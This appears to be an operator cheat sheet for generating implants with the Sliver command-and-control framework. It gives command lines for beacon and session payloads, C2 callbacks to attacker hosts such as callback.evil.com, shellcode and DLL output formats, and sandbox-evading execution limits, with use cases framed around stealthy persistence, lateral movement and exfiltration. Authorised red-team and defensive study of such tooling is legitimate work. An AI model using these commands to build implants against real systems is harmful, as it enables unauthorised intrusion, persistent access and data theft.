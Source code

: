 
# SLIVER PAYLOAD GENERATION

The `generate` command is used to create Sliver implants. Payloads can be interactive sessions or asynchronous beacons, and can be generated in various formats for different target operating systems.

---

## 1. PAYLOAD TYPES: BEACON VS. SESSION

### Beacon Payloads

Asynchronous, long-haul communication with configurable intervals. Beacons are ideal for maintaining stealthy, long-term persistence.

```bash
# Generate a 64-bit Windows beacon that connects back every 30 seconds
sliver > generate beacon --mtls 10.10.10.5:8443 --reconnect 30 --os windows --arch amd64
```

Use Cases:
* Long-term persistence on sensitive targets.
* Operations in high-security environments with active monitoring.
* Maintaining a low and slow network footprint.

### Session Payloads

Interactive, real-time communication for hands-on-keyboard activity. Sessions provide immediate command execution.
```bash
# Generate an interactive session implant for Linux
sliver > generate --mtls 10.10.10.5:8443 --os linux --arch amd64
```

Use Cases:
* Active exploitation and enumeration phases.
* Interactive command execution and lateral movement.
* Real-time data exfiltration or tool execution.

---

## 2. COMMAND & CONTROL (C2) ENDPOINTS

You MUST specify at least one C2 endpoint when generating an implant. Sliver supports multiple protocols and allows you to stack them for redundancy.

| Protocol | Flag | Description | Use Case |
| -- | -- | -- | -- |
| mTLS | --mtls | Mutual TLS. Encrypted and authenticated C2. The standard and most robust method. | Default C2, best for stable connections. |
| HTTP(S) | --http | Standard HTTP/HTTPS callbacks. Blends in with common web traffic. | Bypassing restrictive outbound firewalls. |
| WireGuard | --wg | Encrypted VPN tunnel using the WireGuard protocol (UDP-based). | Establishing C2 over UDP when TCP is heavily monitored. |
| DNS | --dns | Uses DNS queries for C2 communication (slow but stealthy). | Environments where DNS is always allowed outbound. |
| Named Pipe | --named-pipe | C2 over Windows Named Pipes. | Internal pivoting and lateral movement between processes/hosts. |
| TCP Pivot | --tcp-pivot | Raw TCP connection, used primarily when relaying through a pivot host. | Setting up quick, transient relays. |

Examples of C2 Configuration:

```bash
# Redundant C2: Implant will try mTLS, then fall back to HTTP
sliver > generate --mtls 192.168.1.100:443 --http http://callback.evil.com

# WireGuard C2 (Requires key-exchange and comms ports)
sliver > generate --wg 3.3.3.3:9090 --key-exchange 1337 --tcp-comms 8888

# Stacked C2 example using multiple protocols/domains
sliver > generate --os linux --mtls example.com --dns baz.bishopfox.com
```

---

## 3. PAYLOAD FORMATS & PLATFORMS

The output format is controlled with the --format, --os, and --arch flags.

| Format | --format value | Platform | Use Case |
| -- | -- | -- | -- |
| Executable | exe | Windows/Linux/macOS | Standalone binary (.exe or ELF). **Default format.** |
| Shared Library | shared | Windows/Linux | Library for DLL Sideloading/Hijacking (.dll, .so). |
| Shellcode | shellcode | Windows | Position-independent code for in-memory injection. |
| Service | service | Windows | Executable designed to be run as a Windows service (e.g., via psexec). |

Examples:

```bash
# Generate a 64-bit Windows DLL (shared library)
sliver > generate --mtls 10.10.10.5:443 --os windows --arch amd64 --format shared

# Generate 64-bit Windows shellcode
sliver > generate --mtls 10.10.10.5:443 --os windows --arch amd64 --format shellcode
```

---

## 4. EVASION & TARGETING FEATURES

### DNS Canaries

A unique, non-obfuscated domain embedded in the binary. If a defender runs 'strings' and tries to resolve this domain, the Sliver server will be alerted that the implant has been discovered.

```bash
# Generate a beacon with a canary domain
sliver > generate beacon --mtls 10.10.10.5:443 --canary my-unique-canary.example.com
```

### Execution Limits

Restrict the implant's execution to specific conditions to avoid detonation in sandboxes or unintended environments.

| Flag | Example | Condition |
| -- | -- | -- |
| --limit-hostname | --limit-hostname FINANCE-PC-01 | Only runs if the host matches the specified name. |
| --limit-username | --limit-username Administrator | Only runs for a specific user. |
| --limit-domainjoined | --limit-domainjoined | Only runs on a domain-joined machine. |
| --limit-datetime | --limit-datetime "2025-12-31 23:59:59" | Prevents execution after a set time. |

---

OPERATOR NOTES

*   **Profiles:** Use 'help profiles new' to save complex configurations, making builds safer and easier to reproduce.
*   **Symbol Obfuscation:** Use '--skip-symbols' during generation if you want to disable obfuscation (e.g., for testing or debugging).